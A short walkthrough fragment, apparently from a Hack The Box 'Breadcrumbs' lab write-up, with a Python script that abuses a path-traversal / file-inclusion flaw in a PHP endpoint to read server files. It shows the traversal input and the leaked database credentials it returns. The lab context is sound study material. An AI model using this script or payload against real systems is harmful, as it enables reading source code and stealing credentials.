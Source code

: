# Writing a python script to get source code of php files
This is a python script to get source code of php files.
```pythpn
import requests
import sys

if len(sys.argv) !=2:
    print("Usage:python3 lfi.py [path]")
    sys.exit()

url = 'http://10.10.10.228/includes/bookController.php'
cookies = {'PHPSESSID':'clarkey5ff7596fb91193d14067d301ce3595ce', 'token':'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJkYXRhIjp7InVzZXJuYW1lIjoiY2xhcmtleSJ9fQ.nTfWSoOyE4ClICCHZ5pBZQlE9XDoO2GRfmASDszmRe0'}
data = {'book':sys.argv[1],'method':'1'}

r = requests.post(url, data=data,cookies=cookies)
print(bytes(r.text,"utf-8").decode('unicode_escape').strip('"'))
```
Like this we can get php code of db.php
```bash
~/Dropbox/Documents/htb/boxes/RETIRED_BOXES/breadcrumbs_retired ❯ python3 lfi.py book5.html/../../db/db.php
```
```php
<?php

$host="localhost";
$port=3306;
$user="bread";
$password="jUli901";
$dbname="bread";

$con = new mysqli($host, $user, $password, $dbname, $port) or die ('Could not connect to the database server' . mysqli_connect_error());
?>
```
